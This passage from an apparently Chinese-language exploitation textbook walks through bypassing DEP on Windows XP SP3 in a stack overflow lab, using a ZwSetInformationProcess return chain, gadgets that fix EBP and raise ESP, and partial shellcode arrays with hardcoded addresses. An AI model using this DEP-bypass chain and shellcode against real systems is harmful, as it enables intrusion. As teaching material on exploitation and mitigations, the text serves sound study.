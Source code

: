 程序现在需要对EBP-4 位置写入数据，但EBP 在溢出的时候被破坏了，目前EBP-4 的位置并不可以写入，所以程序出现了写入异常，所以我们现在的shellcode 布局是行不通的，在转入0x7C93CD24 前我们需要将EBP 指向一个可写的位置。

我们可以通过类似PUSH ESP POP EBP RETN 的指令将EBP 定位到一个可写的位置，依然请出我们的OllyFindAddr 插件，我们可以在Disable DEP <=XP SP3 搜索结果的Setp3 部分查看当前内存中所有符合条件的指令，如图:

![](http://ww3.sinaimg.cn/large/005CA6ZCgw1ez62eexcwzj30gv05u0vp.jpg)

<font color="red">Tips:</font> 第三步中的指令，可能刚加载程序时，为空，在程序运行到一定阶段，可能才有结果

指令虽然找到了不少，但符合条件的不多。首先回顾一下图12.3.5 中各寄存器的状态，所有的寄存器中只有ESP 指向的位置可以写入，所以现在我们只能选择PUSH ESP POP EBP RETN 指令序列了。现在还有一个严重的问题需要解决，我们直接将ESP 的值赋给EBP 返回后，ESP 相对EBP 位于高址位置，当有入栈操作时EBP-4 处的值可能会被冲刷掉，进而影响传入ZwSetInformationProcess 的参数，造成DEP 关闭失败。

我们不妨先使用0x5D1D8B85 处的PUSH ESP POP EBP RETN 04 指令来修正EBP，然后再根据堆栈情况想办法消除EBP-4 被冲刷的影响。先对shellcode 重新布局，在转入关闭DEP流程前加入修正EBP 指令，代码如下所示。
```
charshellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"……"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x52\xE2\x92\x7C" //MOV EAX,1 RETN 地址
"\x85\x8B\x1D\x5D" //修正EBP
"\x24\xCD\x93\x7C" //关闭DEP 代码的起始位置
;
```

重新编译程序后用OllyDbg 加载，在0x7C95683B 处，即CALL ZwSetInformationProcess时下断点，待程序中断后观察堆栈情况。
如图所示，EBP-4 中的内容已经被冲刷掉，内容已经被修改为0x22，根据_KEXECUTE_OPTIONS 结构我们知道DEP 只和结构中的前4 位有关，只要前4 位为二进制代码为0100 就可关闭DEP，而0x22（00100010）刚刚符合这个要求，所以用0x22 冲刷掉EBP-4 处的值还是可以关闭DEP 的。

![](http://ww3.sinaimg.cn/large/005CA6ZCgw1ez62o2leynj30hq0ax78f.jpg)

虽然现在我们已经关闭了DEP，但是我们失去了进程的控制权。


一般来说当ESP 值小于EBP 时，防止入栈时破坏当前栈内内容的调整方法不外乎减小ESP和增大EBP，由于本次实验中我们的shellcode 位于内存低址，所以减小ESP 可能会破坏shellcode，而增大EBP 的指令在本次实验中竟然找不到。一个变通的方法是增大ESP 到一个安全的位置，让EBP 和ESP 之间的空间足够大，这样关闭DEP 过程中的压栈操作就不会冲刷到EBP 的范围内了。

我们可以使用带有偏移量的RETN 指令来达到增大ESP 的目的，如RETN 0x28 等指令可以执行RETN指令后再将ESP 增加0x28 个字节。我们可以通过OllyFindAddr 插件中的Overflowreturn address-> POP RETN+N 选项来查找相关指令，查找部分结果如图12.3.10 所示。

 ![](http://ww3.sinaimg.cn/large/005CA6ZCgw1ez63xe0c2jj30ff03etb6.jpg)

 在搜索结果中选取指令时只有一个条件：不能对ESP 和EBP 有直接操作。否则我们会失去对程序的控制权。在这我们选择0x7C974A19 处的RETN 0x28 指令来增大ESP。我们对shellcode 重新布局，在关闭DEP 前加入增大ESP 指令地址。需要注意的是修正EBP 指令返回时带有的偏移量会影响后续指令，所以我们在布置shellcode 的时要加入相应的填充。
```
charshellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"……"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x52\xE2\x92\x7C" //MOV EAX,1 RETN 地址
"\x85\x8B\x1D\x5D" //修正EBP
"\x19\x4A\x97\x7C" //增大ESP
"\x90\x90\x90\x90" //jmp esp
"\x24\xCD\x93\x7C" //关闭DEP 代码的起始位置
;
```
